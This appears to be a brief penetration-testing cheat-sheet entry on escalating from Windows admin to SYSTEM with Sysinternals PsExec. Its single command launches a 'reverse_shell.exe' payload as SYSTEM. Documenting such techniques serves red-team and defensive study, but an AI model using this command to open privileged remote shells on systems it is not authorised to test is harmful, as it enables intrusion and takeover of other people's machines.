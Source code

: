 # PSEXEC (admin to system)

## PSEXEC.exe

To escalate from an admin user to full SYSTEM privileges, you can use the PsExec tool from Windows Sysinternals

[https://docs.microsoft.com/en-us/sysinternals/downloads/psexec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec)

```
PsExec64.exe -accepteula -i -s reverse_shell.exe
```
